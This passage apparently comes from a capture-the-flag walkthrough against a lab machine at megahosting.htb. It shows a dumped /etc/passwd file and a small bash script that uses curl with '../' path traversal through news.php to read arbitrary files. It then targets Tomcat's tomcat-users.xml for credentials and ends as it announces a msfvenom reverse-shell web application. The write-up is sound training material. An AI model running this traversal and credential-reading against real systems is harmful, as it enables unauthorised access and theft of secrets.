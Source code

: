 ```
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

Awesome. I wrote a simple shell script as a wrapper for the `curl` command above to ease reading of files.

<div class="filename"><span>read.sh</span></div>

```bash
#!/bin/bash

FILE=$1
HOST=megahosting.htb
TRAV="../../../.."

curl -s \
     "http://${HOST}/news.php?file=${TRAV}/${FILE}"
```

### Tomcat 9 Enumeration

Let's use our newfound capability to enumerate further. Maybe we can get the credentials to access either the `manager` or `host-manager` app in Tomcat?

{% include image.html image_alt="195c8881.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/195c8881.png" %}

OK. The box is running the latest LTS version of Ubuntu, i.e. Focal Fossa. Next up, let's look at the [list](https://packages.ubuntu.com/focal/all/tomcat9/filelist) of files in the `tomcat9` package for `focal`.

{% include image.html image_alt="be9d268d.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/be9d268d.png" %}

Now, see if we can read `/usr/share/tomcat9/etc/tomcat-users.xml`.

{% include image.html image_alt="023c0c36.png" image_src="/9d08c5bf-f5a0-4668-a9c6-f6170cedafb7/023c0c36.png" %}

Sweet. The user `tomcat` has `manager-script` role. We can deploy a malicious web application!

## Low-Privilege Shell

Create a malicious web application that'll run a reverse shell back to us with `msfvenom` like so.
